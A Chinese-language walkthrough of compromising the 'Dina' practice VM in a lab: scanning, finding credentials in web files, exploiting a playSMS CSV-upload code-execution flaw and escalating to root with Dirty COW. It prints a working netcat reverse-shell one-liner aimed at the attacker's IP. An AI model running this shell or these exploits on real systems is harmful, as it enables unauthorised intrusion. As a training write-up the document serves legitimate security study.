


# Dina靶机渗透

## 0x00 主机发现

kali IP地址192.168.110.132

因为与攻击者kali连接在同一张网卡上，处于同一网段所以只需要做二层主机发现即可，可使用netdiscover工具主动模式下扫描网段，找到目标靶机的IP地址


## 0x01 端口/服务扫描

使用masscan工具快速扫描目标靶机开放端口


再使用nmap对靶机仅开放的80端口做细致的服务扫描


## 0x02 漏洞挖掘

既然对外提供web服务，直接访问该网站


学习的天使Dina！

主页仅有提交查询按钮，点击跳转后并无可用信息，访问nmap扫描结果中的robots.txt文件，发现存在五个网站后台文件路径，依次访问

在noting/路径网页源代码存在信息


其他文件路径下访问页面相同，均只有跳转至首页的链接


使用dirb后台目录扫描，新发现一条secure/路径，访问后得到backup.zip文件


发现解压改文件需要密码，想到之前访问nothing/文件下获得的那一组字符串，尝试一番后成功（freedom），用记事本打开解压后得到的.mp3文件，拿到后台登录的路径地址以及账户名


依旧是使用nothing/路径里获得的那一组字符串（diana），登录了网站后台


一番探索后找到了多处.csv文件上传点，在该处尝试是否存在文件上传漏洞或者寻找playSMS的漏洞


进入kali，使用searchsploit和msfconsole工具寻找playSMS的漏洞




看到在编号2是csv文件上传代码执行的漏洞，结合上文提到的csv文件上传页面，该漏洞可利用的可能性很大，就先选择该漏洞尝试

## 0x03 漏洞利用

配置好部分必需参数，成功拿到www-data账户权限


提前打开kali监听，在靶机使用一句话反弹shell

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.110.132 1234 >/tmp/f
```


## 0x04 提权

查看系统的内核版本以及发行版本


大于2.6.22版本，所以我们优先考虑使用脏牛提权



查看当前etc/passwd，替换成功


切换到firefart登录，提权完成

```shell
//将简单的Shell转换成为完全交互式的tty
python -c 'import pty; pty.spawn("/bin/bash")'
```


## 0x05 补充csv上传注入漏洞

该靶机还存在csv文件上传漏洞，使用searchsploit工具所查到的42044.txt文件有详细记录


创建shell.csv文件，按照漏洞利用说明填写并且来到对应的上传点


抓包修改User-Agent值，发现命令执行成功


那么就可以在kali打开监听，发送反弹shell命令

